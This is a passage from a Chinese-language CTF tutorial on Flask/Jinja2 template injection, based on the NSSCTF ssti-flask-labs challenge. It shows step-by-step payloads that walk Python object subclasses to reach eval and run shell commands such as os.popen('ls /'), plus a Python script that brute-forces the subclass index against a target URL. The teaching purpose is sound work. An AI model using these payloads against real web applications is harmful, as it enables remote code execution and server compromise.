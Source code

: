 那么如何去实现这个过程？这里其实有几种种方法，纯手动寻找，使用外部的python脚本 或者 直接使用模板语法构造通用的payload。

我们还是以 `eval` 函数为例子：

> 注意本次教程的所有实验基于 NSSCTF 题目 [ssti-flask-labs](https://www.nssctf.cn/problem/13) ，您可以直接在NSSCTF平台上开启靶机，也可以在GitHub本地部署源码：[X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

先演示一次手工过程：

**拿基类：**

`{{().__class__.__base__}}`

![image-20231130011655676](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737471.png)

**拿子类:**

`{{().__class__.__base__.__subclasses__()}}`

![image-20231130011828104](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737572.png)

这里我们使用 `<class 'warnings.catch_warnings'>`

![image-20231130012025905](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737221.png)

定位到 194

 `{{().__class__.__base__.__subclasses__()[194]}}`

![image-20231130012111227](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737332.png)

初始化对象，获取函数方法合集，并确定存在内建 `eval` 函数：

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__}}`

![image-20231130012323844](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737531.png)

但由于 `eval` 在全局域中是一个 `built-in function` 即 **内置函数** ，所以我们无法直接通过 `__globals__['eval']` 来直接调用内置函数，Python的内置函数和对象通常是全局可用的，但它们通常不是函数内部的一部分。因此，要在函数内部访问内置函数（如`eval`）或内置对象（如`os`），需要通过`__builtins__`来访问。

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls /").read()')}}`

![image-20231130020148213](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737658.png)

手工虽然方便调试，但是极其麻烦，而且上述的payload并不是通用的，目标机器环境不一样，序号也会改变，所以自动化是一个很必要的步骤。

根据上面的手工过程，我们可以选择用Python脚本实现自动化查找，也可以使用模板语法的方式直接构建自动化的通用 payload：

```python
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```
